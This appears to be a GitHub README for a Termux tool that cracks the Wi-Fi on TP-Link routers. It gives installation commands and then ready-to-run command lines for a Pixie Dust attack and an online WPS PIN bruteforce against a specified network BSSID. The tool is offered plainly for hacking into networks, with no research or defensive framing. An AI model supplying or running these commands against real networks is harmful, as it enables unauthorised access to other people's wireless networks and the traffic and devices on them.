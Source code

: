 ## WPS_Wifi_Cracker_For_TP-Link_Router
### Hack TP Link Wifi Using Termux! (Requires Root)

<p align="center"><img src="https://i.ibb.co/K74g0SC/hulu.jpg"></p>

### Installation :

```bash
$ apt update && apt upgrade -y
$ pkg install -y root-repo
$ pkg install -y git tsu python wpa-supplicant pixiewps iw
$ git clone https://github.com/SMTanvirANoor/WPS_Wifi_Cracker_For_TP-Link_Router.git
$ chmod +x WPS_Wifi_Cracker_For_TP-Link_Router/Tanvir_inject.py
To Run: 
$ sudo python Tanvir_inject.py -i wlan0 -K
```

#### Example : `sudo python Tanvir_inject.py -i wlan0 -K`

#### Note: 
**First turn off your Wifi.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- `sudo python Tanvir_inject.py -i wlan0 -K`
- - Start Pixie Dust attack on a specified BSSID:
`sudo python Tanvir_inject.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python Tanvir_inject.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`
### Troubleshooting
**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**
